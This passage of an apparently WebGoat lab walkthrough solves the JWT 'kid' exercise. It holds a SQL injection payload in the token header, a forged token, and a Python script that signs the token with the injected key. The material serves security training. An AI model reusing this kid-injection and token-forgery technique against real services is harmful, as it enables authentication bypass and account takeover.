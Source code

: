 *   Edit the first two parts of the token as
```
{"typ":"JWT","kid":"hacked' UNION select 'ZGVsZXRpbmdUb20=' from 
INFORMATION_SCHEMA.SYSTEM_USERS --","alg":"HS256"}
```
and
```
{"iss":"WebGoat Token Builder","iat":1524210904,"exp":1618905304,
"aud":"webgoat.org","sub":"jerry@webgoat.com","username":"Tom",
"Email":"jerry@webgoat.com","Role":["Cat"]}
```
then calculate the new signature with `deletingTom` as the new key. Use the Python script below for example. 
*   The new token is
```
eyJ0eXAiOiJKV1QiLCJraWQiOiJoYWNrZWQnIFVOSU9OIHNlbGVjdCAnWkdWc1pYUnBibWRVYjIwPScg
ZnJvbSBJTkZPUk1BVElPTl9TQ0hFTUEuU1lTVEVNX1VTRVJTIC0tIiwiYWxnIjoiSFMyNTYifQ.eyJpc
3MiOiJXZWJHb2F0IFRva2VuIEJ1aWxkZXIiLCJpYXQiOjE1MjQyMTA5MDQsImV4cCI6MTYxODkwNTMwN
CwiYXVkIjoid2ViZ29hdC5vcmciLCJzdWIiOiJqZXJyeUB3ZWJnb2F0LmNvbSIsInVzZXJuYW1lIjoiV
G9tIiwiRW1haWwiOiJqZXJyeUB3ZWJnb2F0LmNvbSIsIlJvbGUiOlsiQ2F0Il19.JrDpQmNiVI818UvO
MQgRmPkZOetw7Ic1WbPvStS2B6U
```
*   Click on _Modify and Resend_, modify the token with the newly generated parameter and send again the request.

```python
import base64  
import hashlib  
import hmac  
  
def jwt_tokens_8():  
     def hmac_base64(key, message):  
         return base64.urlsafe_b64encode(bytes.fromhex(hmac.new(key, message, hashlib.sha256).hexdigest()))  
  
     header = '{"typ":"JWT","kid":"hacked\' UNION select \'ZGVsZXRpbmdUb20=\' from INFORMATION_SCHEMA.SYSTEM_USERS --","alg":"HS256"}'.encode()  
     payload = '{"iss":"WebGoat Token Builder","iat":1524210904,"exp":1618905304,"aud":"webgoat.org","sub":"jerry@webgoat.com","username":"Tom","Email":"jerry@webgoat.com","Role":["Cat"]}'.encode()  
  
     new_token = (base64.urlsafe_b64encode(header).decode().rstrip('=') +  
         '.' +  
         base64.urlsafe_b64encode(payload).decode().rstrip('=')).encode()  
     new_signature = hmac_base64('deletingTom'.encode(), new_token)  
     new_token += ('.' + new_signature.decode().rstrip('=')).encode()  
  
     print('New token: {}'.format(new_token.decode()))  
     return  
  
jwt_tokens_8()
```

#### **(A3) Sensitive Data Exposure:**
